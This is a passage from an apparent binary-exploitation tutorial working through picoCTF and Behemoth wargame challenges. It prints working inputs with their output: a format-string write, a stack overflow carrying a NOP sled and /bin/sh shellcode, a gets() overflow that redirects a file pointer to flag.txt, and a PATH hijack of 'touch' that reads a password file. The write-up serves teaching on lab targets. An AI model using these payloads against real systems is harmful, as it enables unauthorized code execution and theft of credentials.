  plain pico83515@shell:/home/format$ ./format "%1337u%7$n"

 We used DMA to access the memory, so written 1337 directly at the address pointed by the 7th position. Otherwise, we can use the basic
 
 ::

  ./format %08x.%08x.%08x.%08x.%08x.%1292u%n 
  
 If you see, we did 5 stack pop-up by using %08x, written the value to be written at 6th position and 7th position contains the address of secret. If you further see "%08x." is of eight characters + 1 of "." or 9 bytes, used five times i.e 9*\ 5=45 bytes and 1292+45 == 1337.

* In another example below,

 .. code:: c

    #include <stdlib.h>
    #include <stdio.h>
    #include <unistd.h>

    #define BUFSIZE 256

    void greet(int length){
        char buf[BUFSIZE];
        puts("What is your name?");
        read(0, buf, length);
        printf("Hello, %s\n!", buf);
    }

    void be_nice_to_people(){
        gid_t gid = getegid();
        setresgid(gid, gid, gid);
    }

    int main(int argc, char **argv){
        int length;
        be_nice_to_people();

        puts("How long is your name?");
        scanf("%d", &length);

        if(length < BUFSIZE) //don't allow buffer overflow
            greet(length);
        else
            puts("Length was too long!");
    }

 This program tries to prevent buffer overflows by first asking for the input length. It disregards the rest of the ouput. However, the program uses scanf. If we supply -1 as the length, we can bypass the overflow check: readelf -l no\_overflow can be used to find if there's any protection on the binary. Stack is executable, Furthermore, ASLR is not enabled. This makes it easy to stick in a shellcode plus a NOP sled and return to an address on the stack

 ::

    pico1139@shell:/home/no_overflow$ (echo -1; python -c 'print "A"*268+"\xd0\xd6\xff\xff"+"\x90"*200+" "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'; cat) | ./no_overflow
    How long is your name?
    What is your name?
    Hello, AAAAAAAAAAAAAAAAAAAAAA...snip...

    id
    uid=11066(pico1139) gid=1007(no_overflow) groups=1017(picogroup)
    cat flag.txt
    what_is_your_sign

* In an another example where stack is not executable, If you read the code, you would find, we need to change the file\_name from not\_the\_flag.txt to flag.txt. In this example, they provided the address of the string "not\_the\_flag.txt" as 0x08048777. By putting a break point in puts in gdb and looking for the address of flag.txt.

 ::

    (gdb) br *puts
    Breakpoint 1 at 0x8048460
    (gdb) run
    Starting program: /home/what_the_flag/what_the_flag 

    Breakpoint 1, 0xf7e81ee0 in puts () from /lib/i386-linux-gnu/libc.so.6
    (gdb) x/s 0x08048777
    0x8048777:  "not_the_flag.txt"
    (gdb) x/s 0x08048778
    0x8048778:  "ot_the_flag.txt"
    (gdb) x/s 0x08048770
    0x8048770:  "le: %s"
    (gdb) x/s 0x0804877C
    0x804877c:  "he_flag.txt"
    (gdb) x/s 0x0804877D
    0x804877d:  "e_flag.txt"
    (gdb) x/s 0x0804877E
    0x804877e:  "_flag.txt"
    (gdb) x/s 0x0804877F
    0x804877f:  "flag.txt"

 .. code:: c

    #include <stdlib.h>
    #include <stdio.h>

    struct message_data{
        char message[128];
        char password[16];
        char *file_name;
    };

    void read_file(char *buf, char *file_path, size_t len){
        FILE *file;
        if(file= fopen(file_path, "r")){
            fgets(buf, len, file);
            fclose(file);
        }else{
            sprintf(buf, "Cannot read file: %s", file_path);
        }
    }

    int main(int argc, char **argv){
        struct message_data data;
        data.file_name = "not_the_flag.txt";

        puts("Enter your password too see the message:");
        gets(data.password);

        if(!strcmp(data.password, "1337_P455W0RD")){
            read_file(data.message, data.file_name, sizeof(data.message));
            puts(data.message);
        }else{
            puts("Incorrect password!");
        }

        return 0;
    }

 So we’ll ovewrite the file pointer with 0x804877f to make it read flag.txt. From gets()’s manual: gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte (‘\\0’). No check for buffer overrun is performed (see BUGS below). So by using the following input, we can overwrite the file pointer and still provide the correct password:

 ::

    1337_P455W0RD
    1337_P455W0RD\0aa\x7f\x87\x04\x08
    aa\x7f\x87\x04\x08

 We use this in the command line to get the flag

 ::

    pico83515@shell:/home/what_the_flag$ printf "1337_P455W0RD\0bb\x7f\x87\x04\x08" | ./what_the_flag
    Enter your password too see the message:
    Congratulations! Here is the flag: who_needs_%eip

    pico83515@shell:/home/what_the_flag$

Miscellanous Examples
=====================

Let's see some miscellanous examples away from Buffer/Format Vulnerabilities.

* So, we have a binary which when executed gives 

 ::

    behemoth2@melinda:/behemoth$ ./behemoth2 
    touch: cannot touch '13373': Permission denied

 Let's see what ltrace provides us

 ::

    behemoth2@melinda:/behemoth$ ltrace ./behemoth2 
    __libc_start_main(0x804856d, 1, 0xffffd794, 0x8048640 <unfinished ...>
    getpid()                                                                                                               = 14118
    sprintf("touch 14118", "touch %d", 14118)                                                                              = 11
    __lxstat(3, "14118", 0xffffd688)                                                                                       = -1
    unlink("14118")                                                                                                        = -1
    system("touch 14118"touch: cannot touch '14118': Permission denied
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                                 = 256
    sleep(2000

 Let's see a truncated output of disassemble main, if we see getpid gets the binary pid, sprintf something in some buffer, lstat provides thefile status, unlink -call the unlink function to remove the specified file.

 ::

    (gdb) disassemble main 
    Dump of assembler code for function main:
       0x08048588 <+27>:    call   0x8048410 <getpid@plt>
       0x080485b3 <+70>:    call   0x8048450 <sprintf@plt>
       0x080485c7 <+90>:    call   0x80486c0 <lstat>
       0x080485df <+114>:   call   0x8048400 <unlink@plt>
       0x080485eb <+126>:   call   0x8048420 <system@plt>
       0x080485f7 <+138>:   call   0x80483e0 <sleep@plt>
       0x08048616 <+169>:   call   0x8048420 <system@plt>
       0x08048635 <+200>:   leave  
       0x08048636 <+201>:   ret 

 If you check the ltrace output

 ::

    system("touch 14118"touch: cannot touch '14118': Permission denied

 touch is being called without an absolute path, so we can take advantage of that. First we’ll create our own touch script that prints out the contents /etc/behemoth\_pass/behemoth3. Next, the PATH variable needs to be updated so that it looks at the current working directory first to ensure that our touch script is executed and not the actual touch program. PATH=/tmp:$PATH, you set /tmp to your primary location to search for binaries and the like... so if you create a file in /tmp/ called touch, it'll actually execute that instead of /usr/bin/touch

 ::

   behemoth2@melinda:/tmp/rahul2$ cat touch 
   cat /etc/behemoth_pass/behemoth3
   behemoth2@melinda:/tmp/rahul2$ history | grep PATH
   19  history | grep PATH
   behemoth2@melinda:/tmp/rahul2$ PATH=/tmp/rahul2:$PATH /behemoth/behemoth2 
   **********

Changelog
=========
.. git_changelog::
  :filename_filter: docs/LFC-BinaryExploitation.rst
  :hide_date: false

.. disqus::

